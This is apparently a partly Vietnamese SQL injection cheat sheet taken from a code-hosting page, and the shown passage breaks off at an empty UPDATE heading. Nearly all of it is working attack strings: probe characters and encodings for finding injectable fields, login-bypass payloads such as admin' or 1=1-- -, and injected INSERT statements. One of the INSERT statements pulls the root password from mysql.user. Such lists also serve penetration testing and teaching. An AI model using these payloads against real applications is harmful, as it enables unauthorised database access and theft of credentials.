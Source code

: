 <h2>Detect Vul SQLI</h2>

```
admin'
admin' or 1=1
admin' or 1=1'-- -
admin' or 1=1/*
admin' or 1=1#
admin') or ('1'='1
admin') or ('1'='1')--
nối chuỗi: 
    admin''
    admin'||(select '')||'
'
%27
"
%22
#
%23
;
%3B
)
Wildcard (*)
&apos;  # required for XML content

Multiple encoding
    %%2727
    %25%27

Merging characters

    `+HERP
    '||'DERP
    '+'herp
    ' 'DERP
    '%20'HERP
    '%2B'HERP
```

<h2>ByPass Logic</h2>
<h4>Câu lệnh <b>SELECT</b></h4>

```sql
SELECT * FROM users WHERE username = 'admin'--' AND password = ''
SELECT * FROM products WHERE category = 'Gifts' ORDER BY 1--
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
SELECT * FROM Users WHERE ((Username='$username') AND (Password=MD5('$password')))
SELECT * FROM Users WHERE ((Username='1' or '1' = '1'))LIMIT 1/*') AND (Password=MD5('$password')))
(với Oracle sử dụng -- thay vì /*)
```
<h4>Câu lệnh <b>INSERT</b></h4>

```sql
INSERT INTO users (username, password, signature) VALUES ('xxx', 'yyy', 'zzz');
INSERT INTO users (username, password, signature) VALUES ('name','pass','sign')-- -, 'yyy', 'zzz');
INSERT INTO users (username, password, signature) VALUES ('name','pass',(select version()))-- -, 'yyy', 'zzz');
INSERT INTO users (username, password, signature) VALUES ('name','pass',(select password from mysql.user where user='root' limit 0,1))-- -, 'yyy', 'zzz');
```
<h4>Câu lệnh <b>UPDATE</b></h4>
